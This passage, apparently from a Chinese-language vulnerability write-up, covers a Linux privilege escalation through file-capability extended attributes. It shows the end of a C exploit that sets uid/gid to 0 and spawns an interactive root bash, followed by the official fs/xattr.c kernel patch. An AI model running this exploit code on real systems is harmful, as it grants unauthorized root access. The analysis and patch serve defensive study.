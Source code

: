 ```
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    `}`

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) `{`
        _exit(exploit());
    `}` else `{`
        waitpid(child, NULL, 0);
    `}`

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
`}`
```

演示效果如下图

[![](https://p4.ssl.qhimg.com/t01868d97b64505be27.png)](https://p4.ssl.qhimg.com/t01868d97b64505be27.png)

官方给出的修复方法是

```
diff --git a/fs/xattr.c b/fs/xattr.c
index cd7a563e8bcd4..fd57153b1f617 100644
--- a/fs/xattr.c
+++ b/fs/xattr.c
@@ -276,8 +276,16 @@ vfs_setxattr(struct dentry *dentry, const char *name, const void *value,
 `{`
     struct inode *inode = dentry-&gt;d_inode;
     struct inode *delegated_inode = NULL;
+    const void  *orig_value = value;
     int error;

+    if (size &amp;&amp; strcmp(name, XATTR_NAME_CAPS) == 0) `{`
+        error = cap_convert_nscap(dentry, &amp;value, size);
+        if (error &lt; 0)
+            return error;
+        size = error;
+    `}`
+
 retry_deleg:
     inode_lock(inode);
     error = __vfs_setxattr_locked(dentry, name, value, size, flags,
@@ -289,6 +297,9 @@ retry_deleg:
         if (!error)
             goto retry_deleg;
     `}`
+    if (value != orig_value)
+        kfree(value);
+
     return error;
 `}`
 EXPORT_SYMBOL_GPL(vfs_setxattr);
@@ -537,12 +548,6 @@ setxattr(struct dentry *d, const char __user *name, const void __user *value,
         if ((strcmp(kname, XATTR_NAME_POSIX_ACL_ACCESS) == 0) ||
             (strcmp(kname, XATTR_NAME_POSIX_ACL_DEFAULT) == 0))
             posix_acl_fix_xattr_from_user(kvalue, size);
-        else if (strcmp(kname, XATTR_NAME_CAPS) == 0) `{`
```